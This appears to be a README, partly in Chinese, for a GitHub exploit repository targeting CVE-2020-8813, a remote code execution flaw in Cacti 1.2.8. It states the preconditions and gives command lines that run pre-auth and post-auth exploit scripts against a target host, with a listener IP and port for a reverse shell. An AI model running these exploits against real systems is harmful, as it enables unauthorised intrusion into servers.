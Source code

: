 # CVE-2020-8813 Cacti v1.2.8 RCE

影响版本：  
- <1.28

Pre-Auth RCE:  
前提：  
 开启来宾实时图查看权限 graph_realtime.php?action=init 中包含poller_realtime.php
```
python3 Cacti-preauth-rce.py x.x.x.x ListeningIP ListeningPORT
```
Post-Auth RCE:  
前提：  
已知一个账户  
```
python3 Cacti-postauth-rce.py x.x.x.x admin pass ListeningIP ListeningPORT
```
[@Askar](https://shells.systems/cacti-v1-2-8-authenticated-remote-code-execution-cve-2020-8813/)

